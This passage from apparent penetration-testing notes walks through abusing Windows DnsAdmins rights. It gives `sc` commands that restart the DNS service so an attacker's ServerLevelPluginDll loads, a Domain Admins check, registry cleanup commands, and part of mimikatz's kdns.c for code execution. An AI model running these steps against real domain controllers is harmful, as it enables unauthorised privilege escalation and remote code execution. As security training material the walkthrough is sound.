 We can use the `sc` command to check permissions on the service:
```console
C:\zeropio> sc.exe sdshow DNS
```

Now, we can issue the following commands to stop and start the service:
```console
C:\zeropio> sc stop dns
```

Starting DNS service:
```console
C:\zeropio> sc start dns
```

If all goes to plan, our account will be added to the Domain Admins group or receive a reverse shell if our custom DLL was made to give us a connection back:
```console
C:\zeropio> net group "Domain Admins" /dom
```

### Cleaning Up

This are very destructive actions and must be exercised with great care. These steps must be taken from an elevated console with a local or domain admin account. The first step is confirming that the ServerLevelPluginDll registry key exists. Until our custom DLL is removed, we will not be able to start the DNS service again correctly:
```console
C:\zeropio> reg query \\<TARGET>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```

Remove the key that points to our custom DLL:
```console
C:\zeropio> reg delete \\<TARGET>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll
```

Start DNS service again:
```console
C:\zeropio> sc.exe start dns
```

Check the DNS service:
```console
C:\zeropio> sc query dns
```

### Using Mimilib.dll

We can also use the [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) (from mimikatz) to gain RCE modifying the [kdns.c](https://raw.githubusercontent.com/gentilkiwi/mimikatz/master/mimilib/kdns.c):
```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}
```